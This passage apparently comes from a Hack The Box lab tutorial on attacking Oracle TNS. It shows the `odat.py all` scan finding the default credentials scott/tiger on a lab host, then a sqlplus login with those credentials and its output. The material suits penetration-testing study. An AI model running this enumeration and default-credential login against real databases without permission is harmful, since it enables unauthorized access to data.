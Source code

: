 We can use the `odat.py` tool to perform a variety of scans to enumerate and gather information about the Oracle database services and its components. Those scans can retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfigurations, etc. Let us use the `all` option and try all modules of the `odat.py` tool.

#### ODAT

Oracle TNS

```shell-session
0xmid00@htb[/htb]$ ./odat.py all -s 10.129.204.235

[+] Checking if target 10.129.204.235:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.129.204.235:1521 is well configured. Continue...

...SNIP...

[!] Notice: 'mdsys' account is locked, so skipping this username for password           #####################| ETA:  00:01:16 
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password       #####################| ETA:  00:01:05 
[!] Notice: 'outln' account is locked, so skipping this username for password           #####################| ETA:  00:00:59
[+] Valid credentials found: scott/tiger. Continue...

...SNIP...
```

In this example, we found valid credentials for the user `scott` and his password `tiger`. After that, we can use the tool `sqlplus` to connect to the Oracle database and interact with it.

#### SQLplus - Log In

Oracle TNS

```bash
 sqlplus <USER>/<PASS>@10.129.204.235/<SID>
 # EXAMPLE
0xmid00@htb[/htb]$ sqlplus scott/tiger@10.129.204.235/XE

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:19:21 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days



Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> 
```
